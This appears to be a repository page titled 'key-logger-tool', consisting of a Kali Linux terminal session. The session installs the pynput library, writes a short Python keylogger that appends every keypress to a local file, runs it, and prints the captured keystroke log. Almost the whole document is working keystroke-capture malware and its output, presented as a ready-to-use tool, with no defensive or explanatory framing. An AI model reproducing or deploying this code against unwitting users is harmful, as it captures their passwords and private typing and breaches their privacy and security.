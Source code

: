 # key-logger-tool
┌──(kali㉿kali)-[~]
└─$ sudo apt install python3 python3-pip python3-venv -y
[sudo] password for kali: 
python3 is already the newest version (3.13.5-1).
python3-pip is already the newest version (25.2+dfsg-1).
python3-venv is already the newest version (3.13.5-1).
The following packages were automatically installed and are no longer required:
  libbluray2  libgdata-common  libgeos3.13.1  libogdi4.1          libsframe1   libsoup-2.4-1      libtheora0     libtheoraenc1  libvpx9                python3-wheel-whl
  libgdal36   libgdata22       libhdf4-0-alt  libqt5ct-common1.8  libsigsegv2  libsoup2.4-common  libtheoradec1  libudfread0    python3-packaging-whl
Use 'sudo apt autoremove' to remove them.

Summary:
  Upgrading: 0, Installing: 0, Removing: 0, Not Upgrading: 3
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ python3 -m venv venv
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~]
└─$ source venv/bin/activate
                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$ pip install pynput
Requirement already satisfied: pynput in ./venv/lib/python3.13/site-packages (1.8.1)
Requirement already satisfied: six in ./venv/lib/python3.13/site-packages (from pynput) (1.17.0)
Requirement already satisfied: evdev>=1.3 in ./venv/lib/python3.13/site-packages (from pynput) (1.9.2)
Requirement already satisfied: python-xlib>=0.17 in ./venv/lib/python3.13/site-packages (from pynput) (0.33)
                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$ nano keylogger.py
from pynput import keyboard

log_file = "keylog.txt"

def on_press(key):
    try:
        with open(log_file, "a") as f:
            f.write(f"{key.char}")
    except AttributeError:
        with open(log_file, "a") as f:
            f.write(f" {key} ")

with keyboard.Listener(on_press=on_press) as listener:
    listener.join()

                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$ python3 keylogger.py
^CTraceback (most recent call last):
  File "/home/kali/keylogger.py", line 14, in <module>
    listener.join()
    ~~~~~~~~~~~~~^^
  File "/home/kali/venv/lib/python3.13/site-packages/pynput/util/init_.py", line 295, in join
    super(AbstractListener, self).join(timeout, *args)
    ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^^^^^^^^^^^^^^^^
  File "/usr/lib/python3.13/threading.py", line 1094, in join
    self._handle.join(timeout)
    ~~~~~~~~~~~~~~~~~^^^^^^^^^
KeyboardInterrupt

                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$ cat keylog.txt
 Key.enter  Key.ctrl  Key.alt  Key.alt tbgyvuyvbh Key.space bhouvuv Key.enter cd Key.enter 6f7 Key.backspace  Key.backspace  Key.backspace  Key.backspace  Key.backspace  Key.backspace ls Key.enter  Key.alt  Key.tab  Key.enter  Key.enter  Key.enter  Key.ctrl c Key.backspace  Key.backspace hgvdgch Key.enter jhbshveggdwvc Key.enter  Key.ctrl cc Key.backspace  Key.ctrl cy Key.shift HA Key.caps_lock ebewgyiuhrugiuahiu Key.caps_lock iuogfpogkluhihdiojui[odpuhuphgdiuhuhpus]]iojkjgnn[dihb[o]]htilidluhdiuuigiuhihg Key.enter  Key.ctrl c Key.ctrl  Key.ctrl  Key.alt tiokjbjva'n'j'fjv'nqejng[ligbli]knbgwhvknkj Key.enter yviio Key.enter  Key.ctrl c                                                                                                                                                                                                                                            
┌──(venv)─(kali㉿kali)-[~]
└─$
